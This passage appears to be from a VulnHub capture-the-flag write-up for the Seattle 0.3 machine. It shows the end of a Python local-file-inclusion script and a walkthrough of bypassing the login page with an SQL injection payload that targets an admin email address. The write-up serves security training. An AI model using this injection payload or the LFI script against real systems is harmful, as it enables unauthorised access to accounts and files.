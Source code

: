 ```py
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Read LFI
    readFile(rhost)

if __name__ == '__main__':
    main()
```

## Account

We see a login page here

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:04:36.png)

We try a random login to see how it works

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:08:13.png)

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:08:19.png)

Ok, we send it to burp, and try a single quote

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:09:10.png)

Worked!

What we need now is just a valid mail, and we can get it on the Blog tab

admin@seattlesounds.net

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:15:42.png)

Now, it's easy to bypass it's password

```
usermail=admin@seattlesounds.net'--+-&password=123
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:16:16.png)

We got success, logged in!

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2010:18:46.png)

